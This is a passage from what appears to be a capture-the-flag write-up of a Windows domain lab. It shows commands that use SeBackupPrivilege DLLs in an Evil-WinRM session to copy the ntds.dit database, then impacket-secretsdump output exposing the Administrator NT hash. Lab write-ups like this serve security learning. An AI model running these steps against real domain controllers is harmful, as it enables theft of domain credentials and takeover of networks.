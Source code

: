 The volume shadow was however created and we just need to find a way of copying it.

Searching further on google "SeBackupPrivilege github" 

https://github.com/giuliano108/SeBackupPrivilege

With the help of the dll's in the repo, the ntds file can be read correctly as a backup service and not interpreted as a user ( reason for the access denied error)


"If you want to read/copy data out of a "normally forbidden" folder, you have to act as a backup software. The shell copy command won't work; you'll need to open the source file manually using CreateFile making sure to specify the FILE_FLAG_BACKUP_SEMANTICS flag"


```
*Evil-WinRM* PS C:\Users\svc_backup> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup> import-module .\SeBackupPrivilegeUtils.dll


Copy-FileSeBackupPrivilege r:\Windows\ntds\ntds.dit \windows\temp\ntds.dit -Overwrite
```

![copy_ntds](/images/blackfield/copy_ntds.png)

The file is subsequently downloaded to the local kali machine where the password can be extracted using the **impacket-secretsdump** and the decryption key from the SYSTEM registry.

The HKLM\SYSTEM value had aready been downloaded in the first try with wbadmin.

<u>**SecretsDump**</u>

On kali, running impacket-secretsdump:

```
impacket-secretsdump -system system -ntds ntds.dit LOCAL > secretsdump.txt
```

and checking the contents of secretsdump.txt the administrator NT hash can be found:

```
root@kali:/tmp/final# head secretsdump.txt 
Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation                                    
                                                             
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient                        
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c                                                         
[*] Reading and decrypting hashes from ntds.dit              
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::                                    
```